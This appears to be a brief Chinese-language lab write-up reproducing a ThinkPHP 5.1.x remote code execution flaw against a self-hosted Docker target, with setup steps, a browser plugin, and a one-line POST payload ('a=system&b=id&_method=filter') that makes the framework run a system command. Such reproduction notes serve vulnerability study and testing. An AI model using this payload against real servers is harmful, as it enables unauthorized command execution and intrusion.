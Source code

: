 ## Thinkphp5.1.x 远程漏洞执行漏洞复现

### 一、环境准备
使用vsplate(https://www.vsplate.com/new.php)的docker快速搭建平台，填入github地址（eg. https://github.com/wdan-code/vuln） 即可快速搭建靶机

### 二、工具准备
使用的Hacker(https://github.com/Mr-xn/hackbar2.1.3)浏览器插件

![image](https://user-images.githubusercontent.com/30569668/128801110-dfbdd6b2-fe89-45de-a2ac-308379ee76d2.png)


### 三、复现过程
注：针对于这个版本有点鸡肋，需要index.php文件中跳过报错提示（我的github仓库已修改，直接拉取即可）
语句：error_reporting(0);
Payload：a=system&b=id&_method=filter

![image](https://user-images.githubusercontent.com/30569668/128801826-ef08cf34-b3f7-417a-82e6-0dc96ea6a671.png)
